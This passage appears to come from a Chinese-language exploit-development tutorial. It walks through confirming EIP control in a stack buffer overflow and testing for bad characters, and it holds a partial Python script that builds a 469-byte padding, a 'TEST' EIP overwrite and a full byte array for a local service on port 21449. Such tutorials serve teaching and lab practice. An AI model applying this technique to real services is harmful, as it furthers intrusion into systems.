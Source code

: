 验证  
  
先进后出原则：54534554 TSET  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyibIeSAo3kqKOBiaGpghBcibmOcPu25NyVricC6cp7ue4Bkub7CiaxZLHG5g/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyr0wjpiblG9AIRJFbV5SbKn61giboLNBGxNNMsNEnvoopEs9AhYn0jYUA/640?wx_fmt=jpeg "")  
  
坏字符或者说干扰字符排查  
  
嗯有时候需要证明还是需要排查下的  
  
ERC --bytearray 可生成用来判断的文件（txt测试代码、bin对比）  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUy6hFyFyFlZDuTxPh8CYTZsl9aAVXWCM86OLwSJ25XaQ5IrYC9t2yWkg/640?wx_fmt=jpeg "")  
  
测试代码  
```
# 在这里写上你的代码 :-)
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
        0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
        0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
        0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
        0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
        0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
        0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
        0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
        0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
        0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
        0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
        0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
        0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
        0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
        0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
        0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
        0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
        0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
        0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
        0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
        0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
        0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
        0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
        0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
        0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
        0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
        0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
        0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
        0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
        0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 469
    buffer = b"A"*offset
    eip = b"TEST"
    payload = buffer + eip + all_chars

```